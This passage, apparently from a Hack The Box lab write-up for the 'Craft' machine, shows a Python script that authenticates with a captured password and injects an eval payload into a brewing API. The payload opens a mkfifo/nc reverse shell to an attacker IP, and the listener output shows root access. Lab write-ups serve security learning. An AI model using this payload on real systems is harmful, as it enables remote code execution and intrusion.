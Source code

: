 ## RCE

Now with credentials, knowing we could take advantage of the `eval()` and remembering the curl Denish was using in his issue + the API, we can make an injection via a POST to `/api/brew/`.
I wrote a small script to authenticate and post that do the injection (tbh, I missed I could just use `test.py` realized about it late). grabbing the token and using it to authen.

```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# cat craft_inject.py 
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import requests
import re
import json

url = "https://api.craft.htb/api/auth/login"
login=('dinesh', '4aUh0A8PbVJxgd')
r = requests.get(url, auth=login, allow_redirects=False, verify=False)
token = json.loads(r.text)['token']
print(token)
url = "https://api.craft.htb/api/brew/"
headers = {'X-Craft-API-Token':token, 'Content-Type': 'application/json'}
inject = """__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f")"""
payload = {"name":"foo","brewer":"foo", "style":"foo", "abv":inject}
payload = json.dumps(payload)
attack = requests.post(url, verify=False, headers=headers, allow_redirects=False, data=payload)
```
In one tab run nc listening on port 4444 with `nc -lvp 4444`, and run in other tab we run the script to get the reverse:
```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# ./craft_inject.py 
```

```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from api.craft.htb [10.10.10.110] 41887
/bin/sh: can't access tty; job control turned off
/opt/app # whoami
root
/opt/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

There is something weird, we are already root? we check if there is the `root.txt` in it's home and not, is not:

```console
/opt/app # cd /root
/root # ls -la
total 12
drwx------    1 root     root          4096 Feb  9  2019 .
drwxr-xr-x    1 root     root          4096 Feb 10  2019 ..
drwx------    1 root     root          4096 Feb  9  2019 .cache
/root # 
```
